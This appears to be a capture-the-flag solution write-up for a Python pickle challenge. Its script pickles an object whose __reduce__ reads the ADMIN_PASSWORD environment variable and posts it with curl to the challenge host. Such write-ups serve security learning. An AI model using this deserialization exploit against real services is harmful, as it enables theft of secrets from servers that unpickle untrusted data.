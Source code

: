 Solution
========

The solution is to POST a pickled object to `/text`, where this object
has a `__reduce__` method that calls `os.getenv` to obtain the value of
the `ADMIN_PASSWORD` environment variable.

Check the following code for a minimal answer for this problem:

```
import pickle
import os
import base64

class Exploit(object):
    def __reduce__(self):
        return (os.getenv, ("ADMIN_PASSWORD",))

exploit = pickle.dumps(Exploit())
payload = base64.b64encode(exploit)
os.system("curl -X POST http://vagrant-ctf.local:30877/text -d '%s'" % payload)
```

Reference: https://lincolnloop.com/blog/playing-pickle-security/
